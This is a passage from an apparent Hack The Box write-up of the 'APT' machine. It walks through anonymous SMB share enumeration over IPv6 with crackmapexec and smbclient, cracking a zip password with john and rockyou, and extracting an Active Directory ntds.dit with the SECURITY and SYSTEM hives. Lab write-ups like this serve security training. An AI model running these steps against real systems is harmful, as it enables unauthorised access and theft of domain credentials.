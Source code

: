 
Now this was looking more AD-like. Remember that this is an IPv6 address, so most tools I tried just didn't work. `crackmapexec` was one of them that worked:

```
$ crackmapexec smb dead:beef::b885:d62a:d679:573f -u '' -p '' 
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] htb.local\: 

$ crackmapexec smb dead:beef::b885:d62a:d679:573f -u '' -p '' --shares
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] htb.local\: 
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] Enumerated shares
SMB         dead:beef::b885:d62a:d679:573f 445    APT              Share           Permissions     Remark                                                                                 
SMB         dead:beef::b885:d62a:d679:573f 445    APT              -----           -----------     ------                                                                                 
SMB         dead:beef::b885:d62a:d679:573f 445    APT              backup          READ                                                                                                   
SMB         dead:beef::b885:d62a:d679:573f 445    APT              IPC$                            Remote IPC                                                                             
SMB         dead:beef::b885:d62a:d679:573f 445    APT              NETLOGON                        Logon server share                                                                     
SMB         dead:beef::b885:d62a:d679:573f 445    APT              SYSVOL
```

We have access to a `backup` share using null credentials. `smbclient` supports IPv6, and we can use that to login and view the files:

```
$ smbclient \\\\dead:beef::b885:d62a:d679:573f\\backup -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 24 15:30:52 2020
  ..                                  D        0  Thu Sep 24 15:30:52 2020
  backup.zip                          A 10650961  Thu Sep 24 15:30:32 2020
```

The `backup.zip` is password protected, so we can first `zip2john` it and then `john` it.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash   
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)     
1g 0:00:00:00 DONE (2023-06-22 15:32) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

$ unzip backup.zip                  
Archive:  backup.zip
[backup.zip] Active Directory/ntds.dit password: 
  inflating: Active Directory/ntds.dit  
  inflating: Active Directory/ntds.jfm  
   creating: registry/
  inflating: registry/SECURITY       
  inflating: registry/SYSTEM
```
